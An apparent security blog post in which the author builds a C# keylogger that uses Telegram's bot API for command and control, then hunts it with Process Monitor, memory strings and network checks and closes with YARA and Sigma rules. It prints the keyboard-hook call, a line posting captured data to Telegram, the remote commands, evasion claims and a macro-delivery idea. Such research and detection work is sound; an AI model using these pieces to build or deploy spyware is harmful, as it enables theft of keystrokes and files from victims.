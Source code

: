```yaml
---
layout: post
title: "Simulating the Adversary - Building and Hunting My Own Malware"
date: 2025-07-18
categories: [research]
tags: [malware, keylogger, telegram, c2, hunting, analysis]
permalink: /research/2025/07/18/simulating-the-adversary-building-and-hunting-my-own-malware.html
---
```


> **How the idea of the project came to mind:**

After completing the TryHackMe SOC Level 1 path and diving into Sektor7's Windows malware dev courses, I came across a video by [@John Hammond](https://www.youtube.com/watch?v=03FPDBjpsKo) showcasing a threat actor using **Telegram Webhooks as a C2 channel**. That sparked the idea: *How can this technique be replicated, investigated, and mapped back to active infrastructure for detection or takedown?*


![Project Overview](/static/img/Simulating_the_Adversary_images/Pasted image 20250716075351.png)
![Project Setup](/static/img/Simulating_the_Adversary_images/Pasted image 20250716075452.png)

> Malware Design & Capabilities

The infected.exe was built in C# and it acts as a keylogger with added support for file download, clipboard sniffing, active window tracking, and it handles multiple sessions. I ran it against Windows 11 with Defender enabled inside a sandboxed VM — no alerts, no obvious flags.

It avoids traditional offensive techniques, instead relying on native Windows APIs to operate under the radar which makes it low-noise on EDRs. It's a good example of LOLBAS-style malware, using the system's own functionality against itself.

It leverages `SetWindowsHookEx` with the `WH_KEYBOARD_LL` flag for stealthy input capture:
```
IntPtr hook = SetWindowsHookEx(WH_KEYBOARD_LL, KeyboardCallback, GetModuleHandle(null), 0);
```

For C2, it uses **Telegram Bot API** via:
```
HttpClient.PostAsync("https://api.telegram.org/botXXX/sendMessage", content);
```
- **DNS fronting** using a custom domain on Cloudflare
- Encrypted via HTTPS 

*Commands*:
 /capture - Screenshot 
![Screenshot Command](/static/img/Simulating_the_Adversary_images/Pasted image 20250716082507.png)
 /report 
![Report Command](/static/img/Simulating_the_Adversary_images/Pasted image 20250716082939.png)
/fetch - Download files up to 50mb from the target machine
![Fetch Command](/static/img/Simulating_the_Adversary_images/Pasted image 20250716082247.png)
 /browse - Search through C:\
![Browse Command](/static/img/Simulating_the_Adversary_images/Pasted image 20250716082422.png)
 /metrics - Retrieve log file

The technique could be further enhanced by hosting the payload on a VPS and delivering it via a **Word VBA macro**, allowing execution without raising suspicion typically associated with a standalone .exe.
![VirusTotal Scan](/static/img/Simulating_the_Adversary_images/Pasted image 20250717091415.png)

Virus Total Scan:
![VirusTotal Scan 1](/static/img/Simulating_the_Adversary_images/virus_total)
![VirusTotal Scan 2](/static/img/Simulating_the_Adversary_images/virus_total1)
![VirusTotal Scan 3](/static/img/Simulating_the_Adversary_images/virus_total2)


> Behavioral Analysis & Artifacts

Process Explorer
![Process Explorer](/static/img/Simulating_the_Adversary_images/Pasted image 20250717130737.png)

We see user32.dll and kernel32.dll ( We know we use it for keylogging hooks )
![DLL Analysis](/static/img/Simulating_the_Adversary_images/Pasted image 20250717131823.png)
We confirm again with:
![Confirmation](/static/img/Simulating_the_Adversary_images/Pasted image 20250717132012.png)

**Finding:**  
The malware spawns from explorer.exe and loads:
- `user32.dll` (keylogging hooks)
- `kernel32.dll` (file operations)

We can confirm this is a keylogger by the string "WH_KEYBOARD_LL" and "SetWindowsHookEx"
![String Analysis](/static/img/Simulating_the_Adversary_images/Pasted image 20250717142214.png)

 A simple way to uncover a Telegram bot token is by running strings.exe on a memory dump and filtering with the following regex:
```
\d{9,10}:[a-zA-Z0-9_-]{35}
```

And Voilà! 
![Token Discovery](/static/img/Simulating_the_Adversary_images/Pasted image 20250717144821.png)


To trace the malware's behavior, I used Process Monitor with targeted filters:
- **Process Name** = infected.exe
- **Operation** contains Reg → to track registry access, especially persistence-related keys
- **Path** contains Temp → to catch any dropped or staged files

We apply the filters and we find that a file was created in Temp directory!
![Process Monitor](/static/img/Simulating_the_Adversary_images/Pasted image 20250717133346.png)

Upon checking the file we find the Admin ID of the Telegram Bot owner alongside all of the commands executed!
![Admin ID Discovery](/static/img/Simulating_the_Adversary_images/Pasted image 20250717134121.png)

The malware repeatedly attempts to load a non-existent DLL (relsave.dll) as part of its evasion logic. It also accesses device-related registry keys, part of my persistence testing during development.
![Registry Analysis](/static/img/Simulating_the_Adversary_images/Pasted image 20250717135303.png)

Now that we have both the **Admin ID** and **Bot Token**, something interesting came up:
![Bot Interaction](/static/img/Simulating_the_Adversary_images/Pasted image 20250717153352.png)
By sending a message to the bot using a simple curl request as long as we have the full Telegram API endpoint we can trigger a response that reveals the username of the account controlling the bot while also sending a message :D


> Network Traffic

Unfortunately, this method won't reveal the token in our case, since the payload uses **DNS fronting** and **`CryptDecrypt.dll`** to keep the token encrypted in memory.
![Network Analysis](/static/img/Simulating_the_Adversary_images/Pasted image 20250717141704.png)
![Encrypted Traffic](/static/img/Simulating_the_Adversary_images/Pasted image 20250717154252.png)


> Mitigation & Defensive Strategy

*Mitigation*
The first step in disrupting this C2 channel is revoking the bot.
```
curl -X POST "https://api.telegram.org/botTOKEN/revoke"  # Replace Token
```

*Network Mitigation*
Block `api.telegram.org` and IP ranges:
- 149.154.167.0/24
- 91.108.4.0/22
Add to proxy/firewall rules and alert on unexpected TLS traffic.


*Defensive Strategies*
A. YARA Rule for Static Detection
```
rule Telegram_Keylogger {
   meta:
      description = "Detects Telegram C2 keyloggers"
   strings:
      $s1 = "WH_KEYBOARD_LL" ascii wide
      $s2 = "/bot" wide
      $s3 = "SetWindowsHookEx" fullword
   condition:
      any of them
}
```

B. Sigma Rule (SIEM Alerting)
```
title: Telegram Keylogger Activity
logsource:
  category: proxy
detection:
  selection:
    dst_port: 443
    dst_ip: 
      - "149.154.167.220"  # Telegram API IP
    method: "POST"
    url: 
      - "/bot*/sendMessage"
      - "/bot*/sendDocument"
  condition: selection
level: high
```




